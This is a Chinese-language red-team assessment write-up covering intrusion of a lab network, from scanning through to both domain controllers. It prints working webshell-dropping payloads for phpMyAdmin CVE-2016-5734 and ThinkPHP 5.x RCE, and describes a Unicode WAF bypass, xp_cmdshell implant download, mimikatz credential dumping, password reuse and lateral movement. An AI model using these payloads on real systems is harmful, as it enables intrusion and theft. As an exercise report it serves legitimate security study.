

# 奇安信攻防社区-一次简单的攻防考核

### 一次简单的攻防考核

前段时间进行了一次攻防考核，时间为一周，边干活边考核，所以基本都在晚上活动。之前一直没有复盘这个过程，今天趁此机会整理一下。

# 0x00 前言

靶标是商业计划书，但是因为是考核，所以目标主要还是以拿权限为主。正如所见，我的文笔就如技术一样拉胯，所以如果有不足的地方请各位大佬多多包涵，也希望各位大佬多多指正。言归正传，给的入口是4个网段，分别是10.255.200.*、10.255.210.*、10.255.220.*和10.255.230.*

# 0x01 信息搜集

使用fsan工具快速扫描，发现 10.255.200.1/24段存在大量主机，其他三个网段没扫出来，再使用nmap扫描发现10.255.220.1/24网段存在一台主机，如下图：


接下来开始漏洞搜集和利用

# 0x02 10.255.200.23 phpmyadmin远程代码执行

访问首页发现是有PHPmyadmin(忘截图了)，尝试用弱口令root/root成功登录


从后台可以看出版本为4.4.15.6，这个版本存在远程代码执行漏洞CVE-2016-5734，既然已经知道账号和密码，就可以执行利用这个漏洞执行命令了  
EXP地址：[https://www.exploit-db.com/exploits/40185](https://www.exploit-db.com/exploits/40185)  
执行命令：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "system('whoami');"
```


写入webshell：

```php
python exp.py -u root --pwd="root" http://10.255.200.23:8080 -c "file\_put\_contents('shell.php',base64\_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbbWRybWRyXSk7Pz4='));"
```


连接webshell:


# 0x03 10.255.220.220 致远OA session泄露任意文件上传

刚开始我以为漏洞利用点是命令执行，后面才发现是利用session泄露任意文件上传漏洞


session泄露

  
漏洞利用参考：[https://blog.csdn.net/maverickpig/article/details/118916085](https://blog.csdn.net/maverickpig/article/details/118916085)  
参考链接中的脚本我使用时有点问题，第一次请求获取cookie后第二次文件上传没有带上cookie，所以脚本中的cookie是我手动获取cookie后加上去的，可能是我环境的原因，无伤大雅。可以将get\_cookie函数中的cookies设置为第一次获取的cookie值，比如这样：

```php
cookies = {"JSESSIONID":"6C86F4036B5933A4DC56AF3754B41703"}
```


冰蝎连接webshell，然后上线CS


使用svc-exe提权：


运行mimimkatz抓取10.10.220.100上的密码：


解密得到密码 seeadmin123...


利用CS搭建代理：


连上代理后远程桌面：


# 0x04 10.10.220.101 SqlServer命令执行

远程登录10.10.220.100后执行命令查看网络连接信息，发现与主机10.10.220.101的1433端口存在连接，猜测为站库分离，如下：

  
然后在10.10.220.101上查找数据库配置文件，最终在目录C:\\Seeyon\\A8\\S1\\client下发现配置文件，如下：


发现数据库密码密文：YjliOTIzNC8vLw==

  
然后使用Python脚本解密，得到密码a8a8123...，脚本如下：

```php
import base64

a="YjliOTIzNC8vLw=="

password=""

b = base64.b64decode(a).decode("utf-8")

print(b)

for i in b:

    password+=chr(ord(i)-1)

print(password)
```


使用数据库连接工具成功连接：


利用xp\_cmdshell执行命令，下载CS马：


之后运行木马成功上线


同样运行mimikatz抓取本地明文密码，得到密码adin1AZ123...


# 0x05 10.255.200.44 泛微OA远程代码执行

漏洞地址： [http://10.255.200.44/weaver/bsh.servlet.BshServlet](http://10.255.200.44/weaver/bsh.servlet.BshServlet)

执行命令有waf拦截：


Unicode编码即可绕过：

  
执行命令将webshell代码进行base64编码后写入C:\\\\Ecology\\\\ecology\\\\wui\\\\1.txt（该目录可解析）

  
然后 将1.txt中的代码进行base64解码后写入mdrmdr2.jsp



访问webshell，成功执行命令：


利用webshell上传CS马然后运行上线CS，同时发现其IP为80.1.1.44：


抓取本地密码，获取到hash值：


在线解密得到密码admin@123456


使用CS搭建代理，挂上代理后对C段80.1.1.1/24进行扫描，部分内容如下：


看到这个结果后我头皮发麻，让有选择困难症的我一时无从下手

# 0x06 80.1.1.36 用友OA远程命令执行

漏洞地址： [http://80.1.1.36:801/servlet/~ic/bsh.servlet.BshServlet](http://80.1.1.36:801/servlet/~ic/bsh.servlet.BshServlet)


利用方式和10.255.200.44一样，写入webshell（过程略）：


同样的方法上传CS马执行上线，发现为一台DC：


抓取主机上的密码：


解密得到 密码admin@12345+


# 0x07 80.1.1.12 ThinkPHP5.x远程代码执行

熟系的首页，以及醒目的ThinkPHP

  
发现其果然存在远程命令执行漏洞，利用远程命令执行漏洞写入webshell：

```php
http://80.1.1.12/?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=echo%20^%3C?php%20@eval($\_REQUEST\[%22cmd%22\])?^%3E%3Eshell.php
```


之后上线CS：


# 0x08 80.1.1.15、80.1.1.88、 10.255.200.20和80.1.1.37 密码复用

利用搜集到的密码制作字典，然后使用fscan工具对80.1.1.1/24进行爆破，得到80.1.1.15、80.1.1.88、10.255.200.20和80.1.1.37四台主机的权限


之后将10.255.200.20上线CS，有了账号和密码可以直接使用psexec执行命令上线，我这里先将CS马拷贝过去，然后再执行上线：


上线后发现其IP为40.1.1.30：


# 0x09 50.1.1.180（DC1）

上线主机40.1.1.30后进行简单主机信息搜集，发现其在xihongdream.com内，ping域名xihongdream.com，得到IP为50.1.1.180，初步判断主机50.1.1.180可能为域控


执行netstat -ano命令查看网络连接情况，发现主机与50.1.1.180的389端口存在连接，因为该端口为域控常用端口，故确定主机50.1.1.180为域控（这里也可以通过端口扫描进行确认）


抓取本地密码hash，发现域用户oaexchange


破解其NTLM值4fec0483465a124269c47fafd757f18f得到密码admin@1234


然后这里使用老方法先与域控50.1.1.180建立IPC$连接：


将本地的木马复制到域控上：


之后添加计划任务运行木马：


成功上线：


# 0x10 50.1.1.181(DC2)

在50.1.1.180上查看域内主机，发现还有一台域控DC2


然后同样用上线DC1的方法上线DC2


拿到DC1和DC2权限后，获取域内其他主机权限就轻而易举了，这里不作阐述

# 0x11 40.1.1.99

在DC1上搜集域信息，查看域信任时发现还有个子域pcin.xihongdream.com,其对应的域控IP为40.1.1.99


利用域信任，使用凭据传递获取权限


因为40.1.1.99不出网，需要利用40.1.1.30搭建会话中转


然后计划任务上线：


# 0x12 40.1.1.128 密码复用

使用搜集到的密码对40.1.1.1/24进行smb登录爆破，得到40.1.1.128的密码seeadmin123...


之后通过凭据传递上线CS：


打到这里的时候，我以为所有网段都已经出现了，然后就没有继续深挖。之后快结束的时候我在DC1上随手ping了一下60.1.1.1，发现居然通了，心态直接炸了，没想到还有隐藏的网段，而现在离结束只有1个小时不到

# 0x13 60.1.1.35、60.1.1.112、60.1.1.120和60.1.1.121 密码复用


没办法，打点的话已经来不及了，最快速的方法就是密码复用，接着使用之前的密码字典爆破了C段60.1.1.1/24，成功拿到了4台主机权限：


结果没想到又又又出现了新网段10.2.120.9(60.1.1.35)


# 0x14 总结

问题较多，不做一一总结，简言之，思路和姿势上都存在不足，打法上也没有按照流程走，基本上都是扫到哪打到哪。这环境也实在是太大了，头皮发麻，其中有许多主机权限都来不及拿。
